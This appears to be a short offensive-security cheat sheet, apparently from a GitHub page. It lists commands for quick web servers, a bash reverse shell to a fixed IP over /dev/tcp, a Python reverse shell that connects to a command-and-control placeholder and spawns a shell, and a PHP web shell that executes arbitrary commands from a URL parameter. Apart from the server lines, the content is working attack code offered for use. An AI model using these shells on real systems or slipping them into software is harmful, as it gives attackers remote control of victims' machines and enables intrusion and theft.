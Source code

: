 Open WebServer [Python]
```bash
python3 -m http.server <port>
```

Open WebServer [PHP]
```bash
php -S 0.0.0.0:<port>
```

Bash
```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.44/443 0>&1'
```

Python But Bash
```sh
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<c2-ipv4>",<c2-port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```


Web Shell
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

